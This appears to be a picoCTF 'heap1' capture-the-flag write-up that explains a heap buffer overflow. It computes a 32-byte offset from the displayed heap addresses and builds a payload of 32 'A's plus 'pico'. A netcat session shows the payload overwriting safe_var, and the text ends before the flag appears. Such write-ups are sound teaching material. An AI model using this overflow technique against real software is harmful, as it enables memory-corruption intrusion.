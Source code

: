 Instead  of blindly trying different sizes of inputs, we can calculate exactly the size
```
Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data   
+-------------+----------------+
[*]   0x61f067ded2b0  ->   pico
+-------------+----------------+
[*]   0x61f067ded2d0  ->   bico
+-------------+----------------+
```

The program gives us the current state of the heap.  
The first line is the input location and the second one `safe_var`.  
So our input is 0x61f067ded2d0 - 0x61f067ded2b0 = 0x20 = 32 bytes away from our target.

So our payload will be 32 random bytes followed by `pico` and then select option 4
## Solution

- Select option 2 to write to the buffer
- Enter `AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAApico`

### Execution Example:
```
$ nc tethys.picoctf.net 62992

Welcome to heap1!
I put my data on the heap so it should be safe from any tampering.
Since my data isn't on the stack I'll even let you write whatever info you want to the heap, I already took care of using malloc for you.

Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data   
+-------------+----------------+
[*]   0x61f067ded2b0  ->   pico
+-------------+----------------+
[*]   0x61f067ded2d0  ->   bico
+-------------+----------------+

1. Print Heap:		(print the current state of the heap)
2. Write to buffer:	(write to your own personal block of data on the heap)
3. Print safe_var:	(I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:		(Try to print the flag, good luck)
5. Exit

Enter your choice: 2
Data for buffer: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAApico

1. Print Heap:		(print the current state of the heap)
2. Write to buffer:	(write to your own personal block of data on the heap)
3. Print safe_var:	(I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:		(Try to print the flag, good luck)
5. Exit

Enter your choice: 3


Take a look at my variable: safe_var = pico


1. Print Heap:		(print the current state of the heap)
```